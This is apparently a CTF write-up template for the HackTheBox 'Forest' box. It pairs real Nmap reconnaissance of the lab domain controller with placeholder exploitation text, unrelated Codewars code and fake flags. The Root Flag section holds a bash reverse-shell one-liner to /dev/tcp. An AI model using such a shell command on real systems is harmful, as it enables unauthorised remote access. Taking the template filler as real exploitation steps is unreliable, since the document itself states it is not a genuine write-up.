 # Forest

## Reconnaissance
We begin our reconnaissance by running an Nmap scan checking default scripts and testing for vulnerabilities.

```console
┌─[kimkhuongduy@drgon]─[~/Documents/Github/write-up/HackTheBox-Forest]
└──╼ $sudo nmap -sS -Pn -p- --min-rate 5000 -o nmap_alltcp.txt 10.10.10.161
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-24 12:24 EDT
Warning: 10.10.10.161 giving up on port because retransmission cap hit (10).
Nmap scan report for htb.local (10.10.10.161)
Host is up (0.33s latency).
Not shown: 65212 closed tcp ports (reset), 299 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49671/tcp open  unknown
49676/tcp open  unknown
49677/tcp open  unknown
49684/tcp open  unknown
49703/tcp open  unknown
49929/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 581.13 seconds

┌─[kimkhuongduy@drgon]─[~/Documents/Github/write-up/HackTheBox-Forest]
└──╼ $sudo nmap -sC -sV -Pn -O -p 53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49665,49666,49667,49671,49676,49677,49684,49703,49929 -o nmap_basic.txt 10.10.10.161
[sudo] password for kimkhuongduy: 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-24 12:45 EDT
Nmap scan report for htb.local (10.10.10.161)
Host is up (0.25s latency).

PORT      STATE SERVICE      VERSION
53/tcp    open  domain       Simple DNS Plus
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2022-04-24 16:52:47Z)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf       .NET Message Framing
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49671/tcp open  msrpc        Microsoft Windows RPC
49676/tcp open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
49677/tcp open  msrpc        Microsoft Windows RPC
49684/tcp open  msrpc        Microsoft Windows RPC
49703/tcp open  msrpc        Microsoft Windows RPC
49929/tcp open  msrpc        Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows Server 2016 build 10586 - 14393 (95%), Microsoft Windows 10 1507 - 1607 (93%), Microsoft Windows Server 2016 (93%), Microsoft Windows 7, Windows Server 2012, or Windows 8.1 Update 1 (93%), Microsoft Windows Vista SP1 (93%), Microsoft Windows 10 (92%), Microsoft Windows 10 1507 (92%), Microsoft Windows 10 1511 (92%), Microsoft Windows Server 2012 (92%), Microsoft Windows Server 2012 R2 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: FOREST
|   NetBIOS computer name: FOREST\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: FOREST.htb.local
|_  System time: 2022-04-24T09:53:50-07:00
|_clock-skew: mean: 2h26m50s, deviation: 4h02m33s, median: 6m47s
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2022-04-24T16:53:49
|_  start_date: 2022-04-24T16:25:29

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 89.26 seconds

```
Let’s make some mental notes about the scan results:
*Port 53, 88 is open now, looks like this is a Domain Controller.
*The nmap scan leaks the domain and hostname: htb.local and FOREST.htb.local. Similarly, the SMB OS nmap scan leaks the operating system: Windows Server 2016 Standard 14393.
*Port 389 is running LDAP. We’ll need to query it for any useful information. Same goes for SMB.
*Port 5985 opens, which means if I can find credentials for a user through SMB or LDAP, I might be able to get a an get a shell over WinRM.



Look  here's an image of my website, this is how you format an image.

![My Website](./image/1.png)
\ **Figure 1:** My Website


![Github](./images/github.png)
\ **Figure 2:** Github Profile

Maybe we want to show some python code too, to let's take a look at a snipped from [codewars](https://www.codewars.com) to format time as human readable.

```python
def make_readable(seconds):        

    hours = seconds / 60**2
    minutes = seconds/60 - hours*60
    seconds = seconds - hours*(60**2) - minutes*60

    return '%02d:%02d:%02d' % (hours, minutes, seconds)
```


# Exploitation  

In order to gain our initial foothold we need to blablablabla. Here's another code snippet just for fun.

```php
function sqInRect($lng, $wdth) {

    if($lng == $wdth) {
      return null;
    }

    $squares = array();

    while($lng*$wdth >= 1) {
      if($lng>$wdth) {
        $base = $wdth;
        $lng = $lng - $base;
      }
      else {
        $base = $lng;
        $wdth = $wdth - $base;
      }
      array_push($squares, $base);
    }
    return $squares;
}
```
Above is the php code for the **Rectangle into Squares** kata solution from codewars.


## User Flag

In order to get the user flag, we simply need to use `cat`, because this is a template and not a real writeup!

```
x@wartop:~$ cat user.txt
6u6baafnd3d54fc3b47squhp4e2bhk67
```

## Root Flag

The privilege escalation for this box was not hard, because this is an example and I've got sudo password. Here's some code to call a reverse shell `bash -i >& /dev/tcp/127.0.0.1/4444 0>&1`.


![Root](./images/root.png)
\ **Figure 3:** root.txt v5gw5zkh8rr3vmye7p4ka


# Conclusion
In the conclusion sections I like to write a little bit about how the box seemed to me overall, where I struggled, and what I learned.

# References
1. [https://ryankozak.com/how-i-do-my-ctf-writeups/](https://ryankozak.com/how-i-do-my-ctf-writeups/)
2. [https://github.com/Wandmalfarbe/pandoc-latex-template](https://github.com/Wandmalfarbe/pandoc-latex-template)
3. [https://hackthebox.eu](https://hackthebox.eu)
4. [https://forum.hackthebox.eu](https://forum.hackthebox.eu)
